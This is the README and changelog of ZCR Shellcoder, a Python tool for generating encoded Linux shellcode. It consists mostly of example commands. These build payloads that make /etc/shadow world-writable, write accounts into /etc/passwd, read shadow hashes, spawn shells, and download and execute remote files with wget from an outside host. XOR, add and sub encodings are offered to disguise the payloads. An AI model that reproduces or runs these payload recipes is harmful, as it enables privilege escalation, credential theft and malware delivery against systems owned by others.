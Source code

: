 ZCR Shellcoder is an open source software in python language which lets you 
generate customized  shellcodes for listed operation systems. This software 
can be run on Windows/Linux&Unix/OSX and others OS under python 2.7.x.

Home: http://zsc.z3r0d4y.com/
Features: http://zsc.z3r0d4y.com/table.html
Github: https://github.com/Ali-Razmjoo/ZCR-Shellcoder
Archive: https://github.com/Ali-Razmjoo/ZCR-Shellcoder-Archive
About Author: http://www.z3r0d4y.com/p/about.html

for more information read the document files in main directory or visit home page.


Usages And Changes:
==
version 1.0.5.1: CaMo
----
upgrade "-wizard" switch
-add length calculator for output
-add filename writer in gcc commandline in output file
-fixed bug in encoding module not available.
-fixed bug in os module not available


==
version 1.0.5: CaMo
----
add "-wizard" switch
add installer "use 'zsc' commandline in terminal after installed"
add uninstaller 
This Software just could be run on linux since this version
change output to .c file and automated shellcode generating
add color output for terminal
etc ...

version 1.0.4.1: Infinity
----
bug fix reported by user in executing on linux , color function

version 1.0.4: Infinity
----
add inc encoding chmod() [linux_x86]
add inc_timesyouwant chmod() [linux_x86]
add dec encoding chmod() [linux_x86]
add dec_timesyouwant chmod() [linux_x86]
add features table inside "features_table.html"
add -about to menu for developers name and etc
add color output for windows cmd
fixed permission number calculating in chmod() [linux_x86]
software's signature changes

Examples:
>python shellcoder.py -os linux_x86 -encode inc -job chmod('/etc/passwd','777') -o file
>python shellcoder.py -os linux_x86 -encode dec -job chmod('/etc/passwd','777') -o file
>python shellcoder.py -os linux_x86 -encode inc_10 -job chmod('/etc/passwd','777') -o file
>python shellcoder.py -os linux_x86 -encode dec_30 -job chmod('/etc/passwd','777') -o file

Note: you also can use high value for inc and dec time, like inc_100000, your shellcode may get too big


version 1.0.3: AWAKE
----
add xor_random encoding chmod() [linux_x86]
add xor_yourvalue encoding chmod() [linux_x86]
add add_random encoding chmod() [linux_x86]
add add_yourvalue encoding chmod() [linux_x86]
add sub_random encoding chmod() [linux_x86]
add sub_yourvalue encoding chmod() [linux_x86]
fixed shellcode encode type checking

Examples: 
>python shellcoder.py -os linux_x86 -encode xor_random -job chmod('/etc/shadow','777') -o file.txt
>python shellcoder.py -os linux_x86 -encode xor_random -job chmod('/etc/passwd','444') -o file.txt

Note: each time you execute chmod() function with random encode, you are gonna get random outputs and different shellcode.

>python shellcoder.py -os linux_x86 -encode xor_0x41414141 -job chmod('/etc/shadow','777') -o file.txt
>python shellcoder.py -os linux_x86 -encode xor_0x45872f4d -job chmod('/etc/passwd','444') -o file.txt

Note: your xor value could be anything. "xor_0x41414141" and "xor_0x45872f4d" are examples.

>python shellcoder.py -os linux_x86 -encode add_random -job chmod('/etc/passwd','444') -o file.txt
>python shellcoder.py -os linux_x86 -encode add_0x41414141 -job chmod('/etc/passwd','777') -o file.txt


>python shellcoder.py -os linux_x86 -encode sub_random -job chmod('/etc/passwd','777') -o file.txt
>python shellcoder.py -os linux_x86 -encode sub_0x41414141 -job chmod('/etc/passwd','444') -o file.txt



version 1.0.2: SKIP
----
[linux_x86 modules completed]
add script_executor() [linux - using command execution]
add download_execute() [linux_x86 - using command execution (wget)]  
add download() [linux_x86 - using command execution (wget)] 
add dir_create() [linux_x86 using command execution] 
add file_create() [linux_x86 using command execution]
add encodes file for next version released

Examples:
>python shellcoder.py -os linux_x86 -encode none -job file_create('/root/Desktop/hello.txt','hello') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job file_create('/root/Desktop/hello2.txt','hello[space]world[space]!') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job dir_create('/root/Desktop/mydirectory') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job download('http://www.z3r0d4y.com/exploit.type','myfile.type') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job download_execute('http://www.z3r0d4y.com/exploit.type','myfile.type','./myfile.type') -o file.txt

#multi command
>python shellcoder.py -os linux_x86 -encode none -job download_execute('http://www.z3r0d4y.com/exploit.type','myfile.type','chmod[space]777[space]myfile.type;sh[space]myfile.type') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job script_executor('script.type','D:\\myfile.type','./script.type') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job script_executor('z3r0d4y.sh','/root/z3r0d4y.sh','sh[space]z3r0d4y.sh') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job script_executor('ali.py','/root/Desktop/0day.py','chmod[space]+x[space]ali.py;[space]python[space]ali.py') -o file.txt

Note: Remember don't use " " and replace it with "[space]"
Note: script_executor(),download_execute(),download(),dir_create(),file_create() are using linux command line , not the function. [wget,mkdir,echo]


version 1.0.1: BOILING_POINT
----
add system() [linux_x86 command execute]
fixed chmod filename 1/4 char length [linux_x86]
fixed exec filename 1/4 char length [linux_x86]
fixed write filename 1/4 length [linux_x86]
fixed write content 1/4 length [linux_x86]
fixed write length calculator [linux_x86]
and fixed some other bugs in coding [core]

Examples:

system() function added in script, you can use it to do anything and generate any command line shellcode.
Note: Don't use space ' ' in system() function, replace it with "[space]" , software will detect and replace " " for you in shellcode.

>python shellcoder.py -os linux_x86 -encode none -job system('ls') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job system('ls[space]-la') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job system('ls[space]-la[space]/etc/shadow;chmod[space]777[space]/etc/shadow;ls[space]-la[space]/etc/shadow;cat[space]/etc/shadow;wget[space]file[space];chmod[space]777[space]file;./file') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job system('wget[space]file;sh[space]file') -o file.txt


version 1.0.0: ASIIN_BLUE_RUBY
----
add chmod() [linux_x86] -> chmod('/path/file','perm_num')
add write() [linux_x86] -> write('/path/file','content')
add exec() [linux_x86]  -> exec('/path/file')
add encode [none - all os] 

Examples:

>python shellcoder.py -h 

Switches:
-h, --h, -help, --help => to see this help guide
-os => choose your os to create shellcode
-oslist => list os for switch -os
-o => output filename
-job => what shellcode gonna do for you ?
-joblist => list of -job switch
-encode => generate shellcode with encode
-types => types of encode for -encode switch

-update => check for update

>python shellcoder.py -oslist

[+] linux_x86
[+] linux_x64
[+] linux_arm
[+] linux_mips
[+] freebsd_x86
[+] freebsd_x64
[+] windows_x86
[+] windows_x64
[+] osx
[+] solaris_x86
[+] solaris_x64

>python shellcoder.py -joblist

[+] exec('/path/file')
[+] chmod('/path/file','permission number')
[+] write('/path/file','text to write')
[+] file_create('/path/file','text to write')
[+] dir_create('/path/folder')
[+] download('url','filename')
[+] download_execute('url','filename','command to execute')
[+] system('command to execute')
[+] script_executor('name of script','path and name of your script in your pc','execute command')


>python shellcoder.py -types

[+] none
[+] xor_random
[+] xor_yourvalue
[+] add_random
[+] add_yourvalue
[+] sub_random
[+] sub_yourvalue
[+] inc
[+] inc_timesyouwant
[+] dec
[+] dec_timesyouwant
[+] mix_all


Generating shellcodes , using functions:
>python shellcoder.py -os linux_x86 -encode none -job chmod('/etc/shadow','777') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job write('/etc/passwd','user:pass') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job exec('/bin/bash') -o file.txt

Note: exec() doesn't support any ARGV same as exec('/bin/bash -c ls') or exec('/bin/bash','-c','ls'), you have to wait for next version and this feature will available  in system()
